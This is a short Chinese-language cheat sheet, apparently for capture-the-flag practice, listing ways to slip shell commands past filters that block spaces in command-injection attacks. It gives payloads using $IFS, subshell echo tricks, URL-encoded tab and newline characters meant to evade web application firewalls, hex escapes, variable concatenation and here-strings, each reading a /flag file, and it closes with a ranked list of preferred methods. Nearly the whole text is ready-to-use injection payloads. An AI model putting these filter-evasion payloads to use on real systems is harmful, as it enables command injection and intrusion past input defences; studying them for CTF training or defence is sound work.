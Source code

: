 # 🧠 空格绕过 Cheat Sheet

## 1. 经典环境变量绕过

```shell
#使用 `$IFS`（内部字段分隔符，默认是空格）
cat$IFS/flag
ls$IFS-la

#使用 `$IFS`直接赋值（如果`IFS`被修改，可以自己设定）（`%09` 是Tab字符）
IFS=%09;cat$IFS/flag
```



------

## 2. 子命令替换生成空格

```shell
#使用 `$(echo)`：（注意：`echo\ `就是`echo 后跟一个空格`）
cat$(echo)/flag
cat$(echo\ )/flag

#使用反引号 ``echo``：
cat`echo`/flag
cat`echo\ `/flag
```



------

## 3. URL编码绕过（Web场景）

```shell
#空格对应 `%20`
cat%20/flag

#有些WAF可能拦 `%20`，可以试试：
#- `%09` → tab制表符
#- `%0a` → 换行符
cat%09/flag
cat%0a/flag
```

------

## 4. 特殊字符绕过

```shell
#使用 Shell 支持的控制字符表示空格：
cat$'\x20'/flag
cat$'\x09'/flag   # Tab
cat$'\x0a'/flag   # 换行
```

其中 `$'\x20'` 是bash支持的**十六进制转义**。

------

## 5. Shell内置展开绕过

```shell
#使用数组或参数扩展
cmd="cat /flag"
${cmd}

#或者直接用拼接：
c=cat;f=/flag;$c$f
```

------

## 6. Bash Tricks



```shell
#如果能用 Bash 特性，还可以：不过这要求执行环境支持 Bash 特性。
cat<<<$(</flag)
<<< $(cat /flag)
```



------

# 🔥 经验总结

> **第一首选**是 `$IFS`。
>
> **第二优选**是 `$(echo\ )`。
>
> URL编码只适合**Web场景**。
>
> 如果系统环境很干净又很严，可以尝试**控制字符**（`$'\x20'`这种）。 